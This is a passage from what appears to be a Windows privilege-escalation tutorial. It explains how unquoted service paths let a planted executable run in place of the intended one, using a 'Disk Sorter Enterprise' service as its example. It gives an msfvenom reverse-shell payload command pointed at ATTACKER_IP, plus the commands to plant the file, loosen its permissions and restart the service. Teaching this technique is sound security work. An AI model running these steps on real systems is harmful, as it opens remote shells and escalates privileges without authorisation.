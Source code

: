 This has to do with how the command prompt parses a command. Usually, when you send a command, spaces are used as argument separators unless they are part of a quoted string. This means the "right" interpretation of the unquoted command would be `C:\\\\MyPrograms\\\\Disk.exe` and take the rest as arguments.

Instead of failing as it probably should, SCM tries to help the user and starts searching for each of the binaries in the order shown in the table:

1. First, search for `C:\\\\MyPrograms\\\\Disk.exe`. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for `C:\\\\MyPrograms\\\\Disk Sorter.exe`. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for `C:\\\\MyPrograms\\\\Disk Sorter Enterprise\\\\bin\\\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

Let's generate an exe-service payload using msfvenom, serve it through a python webserver, and download it to the target machine.

```nix
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
```

```nix
C:\\> move C:\\Temp\\rev-svc.exe C:\\MyPrograms\\Disk.exe

C:\\> icacls C:\\MyPrograms\\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```

```nix
C:\\> sc stop "disk sorter enterprise"
C:\\> sc start "disk sorter enterprise"
```

## Other Resources

- [https://www.fuzzysecurity.com/tutorials/16.html](https://www.fuzzysecurity.com/tutorials/16.html)
- [https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
- [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
- [https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
- [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)
- [](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology) and Resources/Windows - Privilege Escalation.md